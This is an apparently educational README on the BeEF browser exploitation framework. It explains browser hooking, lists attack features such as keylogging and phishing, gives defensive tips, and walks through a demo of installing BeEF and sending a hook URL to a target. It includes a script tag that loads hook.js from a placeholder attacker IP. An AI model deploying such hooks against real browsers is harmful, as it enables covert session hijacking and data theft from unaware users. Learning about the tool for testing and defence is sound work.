 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## Browser Exploitation
Generally, an exploit is any code that utilizes vulnrabilities in an operating system or a piece of software to perform malicious actions. Browser or website exploitation takes advantage of a web browser vulnerability and breach a web browser security to alter a user's browser settings without their knowledge [3][3]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers inside a LAN network [4][4]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [4][4]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [5]. 
```javascript
<script src="http://Attacker’s_IP_Address:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface.

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [6]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
BeEF offers a variety set of features such as [6][6],[7][7]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [4][4]. 
## How To Protect Against BeEF?
To protect a browser against BeEF or any other browser explotation tool, a number  of steps should be taken:
* Continously update you browser:

When a vulnerability in a web browser is found, the vendor often releases a patch to fix the issue causing it. Hence, updating web browser provides protection against more recent exploits.
* Do not click on suspicious links or attachments:

Most social engineering techniques are often used by tricking targets to open URLs to suspicious websites. Hence, verifying that an attachment is legitimate is important before clicking it. There are multiple online tools to check if the recieved URL is safe or not such as [11]
* Install firewall and other security software: 

Firewalls act as a strong barrier between the internet and the web browser which detects, blocks suspicious websites, and catches threats before breaching web security 
## Demonstration
This is a short demonstration on how BeEF Framework works on LAN networks. To start, you can install BeEF in few quick steps. (See [8][8] if you encouter any errors)
```console
$ git clone https://github.com/beefproject/beef.git
$ cd /beef
$ ./install
```
Now you are ready to launch BeEF by typing:
```console
$ beef-xss
```
Now, BeEF will start on your coomand line and will open a web user interface
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Start.png)
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Authentication.png)
After inserting your credentials, you can now access the user panel.
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/UI.png)
Send the following hook to the targeted browser
```
http://Your_IP_Address:3000/demos/butcher/index.html
```
Once the user opens the URL, the targeted browser is now hooked
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hook.png "Hook Page on Targeted Browser")
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hooked.png "Hooked Browser as Seen From the Attacker Panel")

Now, the attacker has access to the target's browser and is able to send many different commands from the commands window.
## Additional Resources
As mentioned before, the actual version of BeEF Framework works only over LAN Networks. Hence, some developers have developed tools that facilitate with BeEF to operate remotely over WAN such as [9][9],[10][10]


[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.ericom.com/whatis/browser-exploit/
[4]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[5]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[6]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[7]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
[8]: https://github.com/beefproject/beef
[9]: https://github.com/AzizKpln/Beef-Over-AWS
[10]: https://github.com/stormshadow07/BeeF-Over-Wan
[11]: https://search.google.com/search-console/welcome?action=inspect&utm_medium=referral&utm_campaign=9012289
